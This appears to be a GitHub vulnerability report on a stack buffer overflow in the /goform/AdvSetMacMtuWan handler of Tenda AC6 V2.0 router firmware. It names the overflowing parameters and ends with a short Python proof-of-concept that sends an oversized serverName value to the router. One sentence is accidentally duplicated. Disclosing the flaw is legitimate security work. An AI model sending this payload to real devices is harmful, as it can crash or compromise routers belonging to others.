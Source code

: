 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/AdvSetMacMtuWan` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/AdvSetMacMtuWan` endpoint. This function calls `check_param_changed` to parse the HTTP request. In the `check_param_changed` function, several buffer overflows may occur when the following parameters contain excessive data lengths: `wanMTU`, `wanSpeed`, `cloneType`, `mac`, `serviceName`, `serverName`, `wanMTU2`, `wanSpeed2`, `cloneType2`, `mac2`, `serviceName2`, `serverName2`.

![alt text](image-4.png)
![alt text](image-3.png)
![alt text](image.png)

## poc
By sending a request to the `/goform/AdvSetMacMtuWan` endpoint, we can trace the program entering the `fromAdvSetMacMtuWan` function which calls `check_param_changed` later. In `check_param_changed`, we set a breakpoint before the `strcpy` call at line 57. By dumping the memory, we can observe that the buffer overflow occurs.fore the `strcpy` call at line 57. By dumping the memory, we could find the buffer overflow occurs.



![alt text](image-1.png)

![alt text](image-2.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'serverName': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x110 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/AdvSetMacMtuWan", payload)
```

